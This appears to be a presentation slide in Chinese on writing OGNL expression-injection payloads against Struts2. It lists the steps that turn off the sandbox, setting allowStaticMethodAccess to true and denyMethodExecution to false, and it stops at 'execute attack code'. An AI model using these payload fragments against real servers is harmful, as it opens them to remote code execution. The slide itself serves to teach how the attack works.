

# Ognl表达式注入payload编写的两种模式
第一步将_memberAccess变量中的allowStaticMethod设置为true

_memberAccess[‘allowStaticMethodAccess’]=true

第二步将上下文中的xwork.MethodAccessor.denyMethodExecution设置为false

context[‘xwork.MethodAccessor.denyMethodExecution’]=false

第三步执行攻击代码